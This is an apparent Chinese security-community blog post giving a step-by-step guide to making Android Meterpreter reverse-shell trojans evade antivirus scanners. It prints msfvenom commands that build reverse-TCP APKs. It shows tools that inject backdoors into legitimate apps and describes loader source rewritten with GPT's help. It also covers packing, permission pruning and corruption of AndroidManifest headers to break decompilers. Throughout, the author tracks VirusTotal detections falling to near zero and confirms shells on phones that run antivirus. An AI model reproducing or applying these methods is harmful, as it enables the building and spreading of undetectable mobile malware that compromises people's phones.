




# Android免杀小结 - 先知社区

Android免杀小结

* * *

> 免杀练习两年半

VT检测 [https://www.virustotal.com/gui/home/upload](https://www.virustotal.com/gui/home/upload)

## msfvenom 自动生成

查看一下msfvenom里面的android木马

```plain
msfvenom -l payloads | grep android
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231009101930-472617e4-664a-1.png)

  
使用 android/meterpreter/reverse\_tcp

```plain
msfvenom -p android/meterpreter/reverse_tcp LHOST=ip LPORT=10008 R > black.apk
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102010-5f37bcc0-664a-1.png)  
  
直接使用msfvenom生成的病毒APK，丢到VirScan里面  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102021-65cbbd48-664a-1.png)  
  
10/46 ， 蒽....这也行  
virustotal检查，26/64....  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102034-6d8ea2fc-664a-1.png)  
  
自带一部分免杀效果

## 自带免杀

msfvenom自带有免杀，接下来使用自带工具进行简单免杀  
查看msf自带编码器

```plain
msfvenom --list encoders
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102051-77919c32-664a-1.png)  
  
这两个效果是最好的  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102102-7e34c2ee-664a-1.png)  
  
虽然这个是x86的，但是也能兼容在APK中，编码一次

```plain
msfvenom --platform Android -p android/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=10008 -e x86/shikata_ga_nai R > black_1.apk
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102118-87dbbdc0-664a-1.png)  
  
现在是 9/59  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102128-8d7e55b2-664a-1.png)  
  
编码20次

```plain
msfvenom --platform Android -p android/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=10008 -e x86/shikata_ga_nai -i 20 R > black_2.apk
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102145-980f3d16-664a-1.png)  
  
跟编码一次效果一致  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102204-a2da889a-664a-1.png)  
  
使用 -b 特征码无效  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102213-a8c1f180-664a-1.png)  
  
使用多重编码，增大免杀概率

```plain
msfvenom --platform Android -p android/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=10008 -a dalvik --encoder x86/call4_dword_xor --iterations 5 --encoder x86/countdown --iterations 4 --encoder x86/shikata_ga_nai --iterations 3 -o encoded.apk
```

这里用到了 x86/call4\_dword\_xor，x86/countdown，x86/shikata\_ga\_nai 三个编码器  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102226-b05d48ea-664a-1.png)  
  
没想到免杀效果反而变弱了，只能说是有的编码器特征已经被记录在了检测引擎里面，只要用了就会被检测到

## 工具免杀

> APK免杀的工具好像比较少

### Thefatrat

```plain
git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh && ./setup.sh
```

安装部署弄半天  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102238-b75b26d0-664a-1.png)  
  
环境OK了之后运行

```plain
sudo ./fatrat
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102250-be6b3e56-664a-1.png)  
  
进入程序主界面  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102258-c370c984-664a-1.png)  
  
APK相关的就第五条，在原有的APK文件里面植入后门，这里的APK就用李跳跳吧  
额忘记这玩意加过壳了  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102309-c9e99610-664a-1.png)  
  
拿一个之前同事给我的没加壳的优酷  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102318-cf572798-664a-1.png)  
  
这里有三个方法可以选择

*   使用 Backdoor-apk 0.2.4a：Backdoor-apk 是一个用于在Android应用程序中嵌入后门的开源工具。它允许攻击者在现有的APK文件中插入恶意代码，以实现对目标设备的远程访问或控制。该方法依赖于 Backdoor-apk 工具的功能和特性，并且可以通过指定参数来自定义后门的行为。

不过这个项目也几年没更新了，原项目地址为 [https://github.com/dana-at-cp/backdoor-apk](https://github.com/dana-at-cp/backdoor-apk)

*   使用旧的 Fatrat 方法：这是指使用旧版本的 TheFatRat 工具来创建后门。TheFatRat 是一个基于Metasploit框架的多合一工具，旨在简化后门的创建和利用。它提供了多种攻击向量和功能，包括生成恶意应用程序、创建恶意文档等。使用旧的 Fatrat 方法可能涉及使用过时的工具版本和技术。

这个方法应该就是fatrat内置的方法

*   使用 MsfVenom 嵌入式方法：MsfVenom 是Metasploit框架中的一个强大工具，用于生成定制的恶意代码。嵌入式方法是指使用 MsfVenom 来生成恶意有效负载，并将其嵌入到合法应用程序或文档中，以创建后门。这种方法可以通过设置有效负载选项和参数来自定义后门的行为。

这里我们当然要把每种方式都试一下

#### backdoor-apk

[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102336-d9efc688-664a-1.png)  
  
这里的权限文件是否要混淆，我建议保持原样，减少特征  
结果出现了这个问题

> \[!\] Failed to recompile original project with backdoor

[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102350-e23bcb20-664a-1.png)  
  
单独下载backdoor-apk来进行测试 [https://github.com/dana-at-cp/backdoor-apk](https://github.com/dana-at-cp/backdoor-apk) ，还是存在这个问题，考虑是存在加壳或签名验证的问题，找一个本地自签名的APK丢上去试试（因为我试了一下无签名文件也会有问题  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102408-ed256550-664a-1.png)  
  
在backdoor-apk/backdoor-apkoriginal/dist/ 目录下生成带后门的apk文件  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102420-f408bce6-664a-1.png)  
  
不过这个效果也不咋地，开源工具可以理解  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102429-f9888ebc-664a-1.png)

#### old-fatrat

拿一个选择old-fatrat  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102437-fe17f35a-664a-1.png)  
  
把我之前的一个Android系统签名的APK放进去，生成成功  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102446-0391fac4-664b-1.png)  
  
在TheFatRat 文件夹下面会生成 app\_backdoored.apk，不过在VT上面的效果并不理想  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102457-09ef8e22-664b-1.png)

#### msfVenom嵌入式方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102517-16195b60-664b-1.png)  
  
蒽...让我更新apktool，现在最新的版本是2.8.1  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102525-1ad3804a-664b-1.png)  
  
本地的apktool环境好像因为TheFatRat搞混乱了，第三种方式就跳过吧 懒得搞环境了~

### venom

项目地址 [https://github.com/r00t-3xp10it/venom](https://github.com/r00t-3xp10it/venom)  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102541-248d7ea6-664b-1.png)  
  
当然是选择 4 Android / IOS  
agents 有三个可以选择的，这里我们选择APK后缀的 1  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102556-2d4013ce-664b-1.png)  
  
后面就是一些常规设置 和 设置监听了  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102605-3286a686-664b-1.png)  
  
/venom/output 里面的木马文件大小是0kb  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102615-386b1bd6-664b-1.png)  
  
如果想要下载真实的木马文件需要本机访问浏览器下载，比如我前面写的IP是10.10.10.1，如果想要下载的话就是写虚拟机的IP

下载之后丢到VT 26/64

[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102623-3d9032a4-664b-1.png)

### 工具小记

这样的结果很正常，因为这些工具很久没有更新了，其中的特征都被厂商加入特征库了，但是在工具刚出的时候，都是具有里程碑意义的，我们学习其中的原理即可

## 加壳

下载360加固助手 [https://jiagu.360.cn/#/global/download](https://jiagu.360.cn/#/global/download)  
结果被检测了 orz  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102632-42b53bbc-664b-1.png)

再尝试一下 [https://github.com/woxihuannisja/Bangcle](https://github.com/woxihuannisja/Bangcle)

> java -jar Bangcle.jar b .\\black\_1.apk

也不行  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102644-49e3f284-664b-1.png)  
  
换一个APK，然后卡住了  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102654-503f452a-664b-1.png)  
  
蒽....加壳其实可以过很多特征码检测的扫描工具，这里没有找到能直接用的就算了

## 源码免杀

要想进行源码免杀，就得先知道源代码做了什么  
其实也可以替换msfvenom生成木马APK的smail文件，但实际上特征还是在，如果想按照这种思路的话，先知上面之前有文章 [https://xz.aliyun.com/t/2967](https://xz.aliyun.com/t/2967)  
创建一个什么都不做的Android项目，检查一下有没有误报  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102719-5eb340b6-664b-1.png)  
  
编写Android app工程，把msfvenom里面的移植过来  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102727-6399d572-664b-1.png)  
  
这部分其实是加载器代码  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102739-6aaf436a-664b-1.png)  
  
想要在本地运行，配置文件需要写到 configBytes 列表里面，因为这个配置列表我不知道是怎么生成的，看注释里面好像是 metasploit-framework/lib/rex/payloads/meterpreter/config.rb 文件  
所以这部分直接跳过加密解密配置部分，稍微魔改一下  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102747-6fa19f3a-664b-1.png)  
  
这里会走入 if 分支，所以我们在这里魔改  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102756-74fe11f2-664b-1.png)  
  
修改main方法  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102805-7a4220e0-664b-1.png)  
  
投递到手机中启动  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102814-7f9ca04c-664b-1.png)  
  
查看是否为我们的机器  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102823-85429bd2-664b-1.png)  
  
对比PID一致  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102831-89b9fd18-664b-1.png)  
  
换一个有杀毒软件的手机  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102838-8dc29a0a-664b-1.png)  
  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102852-967c2850-664b-1.png)  
  
这个时候的APK放到VT上面是 8/64  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102900-9ad8df92-664b-1.png)

### 加壳

把源码拿出来之后，预感就可以过360加壳的检测了，果不其然  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102908-9fff163a-664b-1.png)  
  
估计之前的检测也是通过msfvenom生成APK的包名之类的特征来检测的  
丢到GDA里面可以看到是成功加壳了  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102918-a5c8730e-664b-1.png)  
  
这个时候丢到VT上面，居然还是 8/66，沉默了家人们  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102925-aa05bb48-664b-1.png)  
  
虽然有自动脱壳的可能性，但是这样计算量太大了，我感觉不会这么快就解出来  
去除xml里面的这部分内容，主要是感觉这个特征太明显了  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102933-aec73382-664b-1.png)  
  
依旧这样  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102944-b55ff4fe-664b-1.png)  
  
再改改XML里面的各个参数值，stage改成lib引用  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102952-b9c247d6-664b-1.png)  
  
发现VT里面有的是检测到了壳产生的告警  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009102959-be038fa8-664b-1.png)  
  
打开一个正常的APK，丢到VT上面  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103005-c20d143e-664b-1.png)  
  
给它进行360加固，再丢到VT上面  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103011-c5a47da8-664b-1.png)  
  
额....所以有的告警其实是360加固导致的，免费的360加固里面会存在特征文件，需要使用付费版才可以去除 orz  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103020-cafdb8fa-664b-1.png)

*   ESET-NOD32
*   Fortinet
*   MaxSecure

看起来都是误报  
但是 K7GW 的特征是 Trojan ( 0052d2661 )，之前木马APK的特征它报的是 005983af1，暂且认为是有对于msf的特定检测

去除Android本身的权限校验，留下

```plain
<uses-permission android:name="android.permission.INTERNET" />
```

因为我们需要用这个权限来启动service，当然其他权限其实也可以留下来一部分，但是这里直接全部去掉  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103049-dbc4257a-664b-1.png)  
  
加固  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103059-e202ea7a-664b-1.png)  
  
按照我们之前说的360加固壳会出现误报，这里实际上只有三个工具检测是生效的

*   K7GW Trojan ( 0052d2661 )
*   Kaspersky
*   ZoneAlarm by Check Point

不影响攻击机获取shell，某些针对Android上的功能会受到影响  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103114-ead0124a-664b-1.png)

### 源码混淆

源码混淆主要从两个方面进行，主工程代码和lib库混淆  
关于特征是在主工程还是lib库，我们可以在不引入lib库的情况下进行测试，而且lib库里面的代码实际上我们只有需要解析config和使用http通道的时候才会用到，当我们选择SOCKET的时候，是用不到lib库的（更加理所当然的去除掉它们  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103125-f1bbae52-664b-1.png)  
  
结果依旧  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103132-f5b8206c-664b-1.png)  
  
简单从下面几个方向进行修改：

#### 数据通信

先把socket通信去掉  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103141-fad5e7d2-664b-1.png)  
  
依旧  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103147-fed806ee-664b-1.png)  
  
所以这部分可以直接跳过了，直接修改启动和运行方式

#### 启动和运行方式修改

这个部分其实比较抽象  
抛砖引玉吧，如果你想让自己的字迹不被别人看出来，最好的方法是用你的左手写  
代码也是同理，刚好GPT写代码很死板，这个任务丢给它刚好  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103157-047b2676-664c-1.png)  
  
以此类推，然后再删掉一些多余的代码，比如findContext()等等，在不考虑性能的情况下，把全局变量和局部变量换一下位置  
在不加壳的情况下 1/64，依旧能够上线  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103207-0a690b98-664c-1.png)  
  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103214-0e884928-664c-1.png)  
  
最后加个壳，反而变多了，之前检测出木马的Antiy现在没有告警了，可以理解为已经绕过了  
这四个检测我们前面提到过，都是针对加固的告警  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103225-1549a888-664c-1.png)  
  
经过排查之后发现一个很搞笑的点，杀毒软件还检查 buildToolsVersion 和 minSdkVersion吗  
查了一下原因如下

*   兼容性问题：minSdkVersion指定了APK所需的最低Android系统版本。恶意软件通常会选择较低的minSdkVersion，以便在更多设备上运行。杀毒软件会检查minSdkVersion，如果它较低且与APK的其他特征相匹配，就可能被认为是木马。
*   安全漏洞：较旧的Android版本可能存在已知的安全漏洞或弱点，黑客和恶意开发者可能会利用这些漏洞来进行攻击。因此，一些杀毒软件会关注minSdkVersion，以便识别并阻止可能利用这些漏洞的恶意软件。
*   平台限制：某些安卓功能、API或权限只适用于特定的Android版本或更高版本。恶意软件可能会试图突破这些限制来执行危险操作。通过分析minSdkVersion，杀毒软件可以判断APK是否使用了不适当或不合理的安卓功能，从而将其标记为潜在的木马。

实验步骤如下：  
现在minSdkVersion 为 28  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103238-1d272936-664c-1.png)  
  
Antiy-AVL 告警 Trojan/Generic.ASMalwAD.B6  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103246-21908800-664c-1.png)  
  
修改为 30 (反正不等于28就行，我测试了一下26也可以)，现在是 DrWeb 告警 Android.Siggen.Susp.4604  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103256-27bf9874-664c-1.png)  
  
这个告警经过排查修改布局库版本可以避免  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103304-2c82dff6-664c-1.png)  
  
修改为

> implementation 'androidx.constraintlayout:constraintlayout:2.1.4'

估计是跟某个木马的库版本匹配上了  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103314-322e0b42-664c-1.png)  
  
检查上线  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103319-357304b0-664c-1.png)

### 对抗反编译

> 对抗反编译是一门哲学

虽然前面我们已经很成功了，但是还是有一个遗憾，那就是我们删除了一些权限来进行免杀获取shell，权限文件存储在APK解压后的AndroidManifest.xml 文件里面

如果你跟我一样是一个爱读书的好孩子，在《Android软件安全与逆向分析》第十章中就专门花了一章的篇幅来提到 Android程序的反破解技术  
AV在静态检测的过程中，实际上跟软件逆向静态分析没有什么区别，所以我们在这部分进行一下AV对抗

#### 反编译工具崩溃

大多数文章是通过反编译工具崩溃来实现对抗，但是这个方法具有版本限制，在新版本的工具上可能就没有这个问题了，比如对抗dex2jar，这里就不再赘述

#### ZIP文件格式对抗

##### ZIP通用位伪加密

修改ZIP通用位来进行伪加密，比如使用 ZipCenOp.jar这个工具  
这种方法对于android 4.2.x版本及以后系统已经不适用了，Android系统会拒绝这种加密apk的安装

#### AndroidManifest.xml

这一小节主要讲如何对 AndroidManifest.xml 进行操作实现杀毒软件突破

> AndroidManifest.xml是白月光

##### AndroidManifest 组合权限判断

将上一节的免杀APK打开权限开关  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103333-3deba99e-664c-1.png)  
  
VT 现在是 3/65  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103340-41fe2cc8-664c-1.png)  
  
APK木马里面的某些功能一定是需要某个权限的，但是申请这些权限也不一定是恶意应用  
个人感觉是有部分误报了，重新创建一个新的项目，什么都不干只申请这些权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103352-494153f2-664c-1.png)  
  
GPT也觉得这是正常权限  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103400-4dd7796e-664c-1.png)  
  
无妨，猜测可能是组合权限判定，我们先删除某些权限删掉

```plain
<uses-permission android:name="android.permission.SEND_SMS" />
<uses-permission android:name="android.permission.WAKE_LOCK" />
<uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED" />
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103409-534fd030-664c-1.png)  
  
当然这几个是我随便删的，组合权限判断很死板，也有可能删掉一两个权限就能达成免杀，现在再到VT上面 就变成了  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103745-d4160e96-664c-1.png)

##### AndroidManifest 幻数

如果你跟我一样做过逆向，你会发现偶尔我们使用apktool 去逆向APK的时候会出错，因为AndroidManifest.xml文件里面某些字节出错了（导致apktool出错的可能很多，也可以是在Android代码里面留陷阱），总而言之，就是解析XML不成功，这样的情况下还想看到里面的权限列表当然是不可能的（但是APK是能正常运行的），我们利用这个特性给AV一点小小的震撼

链安上面有一篇这个文章 [https://www.liansecurity.com/#/main/news/IPONQIoBE2npFSfFbCRf/detail](https://www.liansecurity.com/#/main/news/IPONQIoBE2npFSfFbCRf/detail)，但是是从修复角度来看待的问题，我们需要的是

*   Android能够成功安装运行
*   逆向软件不能解析AndroidManifest.xml

具体需要修改哪一位能阻碍逆向？  
本来我是想通过fuzz的方式来找到单位幻数，查资料的时候发现看雪上有师傅研究过  
[https://bbs.kanxue.com/thread-272045.htm](https://bbs.kanxue.com/thread-272045.htm)

> AndroidManifest文件的幻数（Magic Number），即文件头为0x00080003。将其修改后，反编译工具就无法识别AndroidManifest文件，导致反编译失败

[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103817-e721f05e-664c-1.png)  
  
重新打包为APK  
使用AndroidKiller反编译出错，这里的apktool版本是 2.4.1  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103830-eefe0916-664c-1.png)  
  
当然在这种情况下AndroidManifest.xml是看不了的  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103838-f3d0d82e-664c-1.png)  
  
使用GDA，这里的AndroidManifest文件显示为空  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103848-f99929be-664c-1.png)  
  
但是当我使用2.8.1版本的apktool的时候，幻数这个问题就被修复了  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103857-fef620f6-664c-1.png)  
  
AndroidManifest.xml成功被分析  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103904-03512696-664d-1.png)  
  
对APK添加证书后安装，即便是存在幻数，也能够成功安装  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103912-07935cec-664d-1.png)  
  
具体是为什么Android能解析，之前的反编译工具不行，需要看Android这部分的源代码  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103921-0d7ba9e8-664d-1.png)  
  
如源码所示,没有验证前两个字节是否是 0x0003，只对 headerSize 的合法性做了验证，所以修改了之后安装没问题

##### stringPoolSize陷阱

修改字符串个数 stringCount 字段，导致跟实际对应不上，也会造成AndroidManifest.xml解析出现问题  
实际上这里是68，我们将stringCount 设置为69  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103935-154877aa-664d-1.png)  
  
然后重新保存签名，这个时候最新的apktool也识别不了了  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009103940-18783104-664d-1.png)  
  
但是我们能够正常安装运行，为了进一步验证正确性，看一下日志是否去外连我的恶意服务器了  
可以看到存在监听动作（报错请忽略，此时服务器没有开启监听），说明APK恶意代码部分没问题  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009104005-276938fc-664d-1.png)

#### 对抗反编译小结

因为写这篇文章的时间比较长，写到这里的时候发现卡巴斯基已经把`源码混淆`部分的特征加进去了，去除部分组合权限后的通过率是 2/65 orz  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009104028-350b4fb8-664d-1.png)  
  
因为我要做对抗反编译的对照实验，所以需要先把免杀降到0  
经过检查发现是这部分代码被加入了特征

```plain
private static String getJarPath(String path){
    String filePath = path + File.separatorChar + Integer.toString(new Random().nextInt(Integer.MAX_VALUE), 36);
    return filePath + ".jar";
}
```

简单改一下

```plain
private static String a(String b){
    String randomNum = Integer.toString(new Random().nextInt(Integer.MAX_VALUE), 36);
    String c = b + File.separatorChar + randomNum;
    return c + ".jar";
}
```

龙王归位  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009104038-3b1b7572-664d-1.png)  
  
把之前注释掉的权限都开放，变成了 3/64  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009104044-3ed10632-664d-1.png)  
  
因为感觉stringPoolSize陷阱效果比较好，这里就是用这个方法来阻碍分析  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009104054-445c8266-664d-1.png)  
  
跟之前一样 这里的apktool 反编译是被阻碍的  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009104101-48ebc472-664d-1.png)  
  
VT上面的效果为 2/65，干扰了 Sophos 杀毒软件的判断  
  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231009104108-4d0d78f2-664d-1.png)

## 参考链接

*   [https://www.cnblogs.com/-qing-/p/11421735.html](https://www.cnblogs.com/-qing-/p/11421735.html)
*   [https://www.freebuf.com/articles/network/249014.html](https://www.freebuf.com/articles/network/249014.html)
*   [https://www.anquanke.com/post/id/86353](https://www.anquanke.com/post/id/86353)
*   [https://www.baichuanweb.cn/article/example-65](https://www.baichuanweb.cn/article/example-65)
*   [https://e0hyl.github.io/BLOG-OF-E0/COVID\_Trojan/](https://e0hyl.github.io/BLOG-OF-E0/COVID_Trojan/)
*   [https://www.freebuf.com/articles/system/227462.html](https://www.freebuf.com/articles/system/227462.html)
*   [https://anhkgg.com/aanti-virus/](https://anhkgg.com/aanti-virus/)
*   [https://misakikata.github.io/2018/09/%E5%85%B3%E4%BA%8EThefatrat%E5%85%8D%E6%9D%80%E4%BD%BF%E7%94%A8/](https://misakikata.github.io/2018/09/%E5%85%B3%E4%BA%8EThefatrat%E5%85%8D%E6%9D%80%E4%BD%BF%E7%94%A8/)
*   [https://zone.huoxian.cn/d/1081-androidapp](https://zone.huoxian.cn/d/1081-androidapp)
*   [https://cloud.tencent.com/developer/article/1472324](https://cloud.tencent.com/developer/article/1472324)
*   [https://e0hyl.github.io/BLOG-OF-E0/COVID\_Trojan/](https://e0hyl.github.io/BLOG-OF-E0/COVID_Trojan/)
*   [https://bbs.kanxue.com/thread-272045.htm](https://bbs.kanxue.com/thread-272045.htm)
